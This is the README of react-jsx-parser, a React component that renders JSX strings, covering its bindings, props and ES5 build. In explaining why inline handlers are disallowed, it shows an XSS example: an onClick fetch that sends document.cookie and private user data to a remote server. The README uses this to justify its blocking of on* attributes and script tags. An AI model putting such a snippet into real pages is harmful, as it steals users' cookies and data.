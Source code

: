 # react-jsx-parser [![CircleCI][circle-ci-badge]](https://circleci.com/gh/TroyAlford/react-jsx-parser) [![Version][npm-version]][npm-link] [![NPM Downloads][npm-downloads]][npm-link] [![License][npm-license]](https://github.com/TroyAlford/react-jsx-parser/blob/master/LICENSE)

[circle-ci-badge]: https://circleci.com/gh/TroyAlford/react-jsx-parser.svg?style=svg
[npm-version]: https://img.shields.io/npm/v/react-jsx-parser.svg
[npm-downloads]: https://img.shields.io/npm/dt/react-jsx-parser.svg
[npm-license]: https://img.shields.io/npm/l/react-jsx-parser.svg
[npm-link]: https://www.npmjs.com/package/react-jsx-parser

A React component which can parse JSX and output rendered React Components.

## Basic Usage - Injecting JSX as a String
```javascript
import React from 'react'
import JsxParser from 'react-jsx-parser'
import Library from 'some-library-of-components'

class InjectableComponent extends Component {
  static defaultProps = {
    eventHandler: () => {}
  }
  // ... inner workings of InjectableComponent
}

const MyComponent = () => (
  <JsxParser
    bindings={{
      foo: 'bar',
      myEventHandler: () => { /* ... do stuff ... */ },
    }}
    components={{ InjectableComponent, Library }}
    jsx={`
      <h1>Header</h1>
      <InjectableComponent eventHandler={myEventHandler} truthyProp />
      <Library.SomeComponent someProp={foo} calc={1 + 1} stringProp="foo" />
    `}
  />
)
```

Because `InjectableComponent` is passed into the `JsxParser.props.components` prop, it is treated as a known element
type, and created using `React.createElement(...)` when parsed out of the JSX. You can also pass in a whole collection
of components, as shown by the `Library` binding, and then access the individual items with `LibraryName.ComponentName`.

Finally, a note about property bindings. The `JsxParser` can handle several types of binding:
 - implicit `true` bindings, such as `<InjectableComponent truthyProp />` (equivalent to `truthyProp={true}`)
 - string-value binding, such as `stringProp="foo"`
 - expression-binding, such as `calc={1 + 1}`
 - named-value binding, such as `eventHandler={myEventHandler}` (note that this requires a match in `bindings`)

The component **_does not_** support inline function declarations, such as:
 - `onClick={function (event) { /* do stuff */ }}`, or
 - `onKeyPress={event => { /* do stuff */}}`

This is to prevent inadvertent XSS attack vectors. Since the primary use of this component is to allow JSX to be stored server-side, and then late-interpreted at the client-side, this restriction prevents a malicious user from stealing info by executing a situation like:
```javascript
<JsxParser
  bindings={{ userInfo: { private: 'data' } }}
  onClick={() => {
    fetch('/some/remote/server', {
      body: JSON.stringify({ cookies: document.cookie, userInfo })
    })
  }}
/>
```

## Advanced Usage - Injecting Dynamic JSX
```javascript
// Import desired set of components
import { ComponentA, ComponentB } from 'somePackage/Components'
import ComponentC from 'somePackage/ComponentC'
import ComponentD from 'somePackage/ComponentD'
...
// Load an HTML or XML fragment from a remote API
const dynamicHtml = loadRemoteData()
...
// Within your component's render method, bind these components and the fragment as props
<JsxParser
  bindings={bindings}
  components={{ ComponentA, ComponentB, ComponentC, ComponentD }}
  jsx={dynamicHtml}
/>
```

Any `ComponentA`, `ComponentB`, `ComponentC` or `ComponentD` tags in the dynamically loaded XML/HTML fragment will be rendered as React components. Any unrecognized tags will be handled by `React`.

_Note:_ Non-standard tags may throw errors and warnings, but will typically be rendered in a reasonable way.

## PropTypes / Settings
```javascript
JsxParser.defaultProps = {
  // if false, unrecognized elements like <foo> are omitted and reported via onError
  allowUnknownElements: true, // by default, allow unrecognized elements

  bindings: {}, // by default, do not add any additional bindings

  // by default, just removes `on*` attributes (onClick, onChange, etc.)
  // values are used as a regex to match property names
  blacklistedAttrs: [/^on.+/i],

  blacklistedTags:  ['script'], // by default, removes all <script> tags

  className: '', // space-delimited classes to add to wrapper (ignored if renderInWrapper=false)

  components: {}, // an object map of component tag-names to their definitions - see above
  // components must extend React.Component, React.PureComponent, or be a Function

  componentsOnly: false, // non-component HTML tags are allowed by default, omitted if true

  disableFragments: false, // if true, React <Fragment />s will not be used.
  // Note: This introduces subtle errors with regard to white-space, and is provided only for
  // backward compatibility with React 15.x

  disableKeyGeneration: false, // if true, rendering will not automatically generate `key` props.
  // Note: This may result in the "Child elements should have a unique 'key' prop " React error.

  jsx: '', // the jsx string to be parsed & rendered

  onError: () => {}, // if specified, any rendering errors are reported via this method

  showWarnings: false, // if true showWarnings, rendering errors are output with console.warn

  renderError: undefined, // if specified, this function can be used to render errors as a fallback

  renderInWrapper: true, // if false, the HTML output will have no <div> wrapper

  renderUnrecognized: tagName => null, // unrecognized tags are rendered via this method
}
```

## Older Browser Support

If your application needs to support older browsers, like `IE11`, import from `react-jsx-parser/lib/es5/react-jsx-parser.min.js`,
which transpiles the `acorn-jsx` dependency down to ES5, and also adds additional polyfill support for code used in this package.

**Note**: <u>not</u> recommended for implementations which only support modern browsers, as the ES5 version is roughly 30% larger.
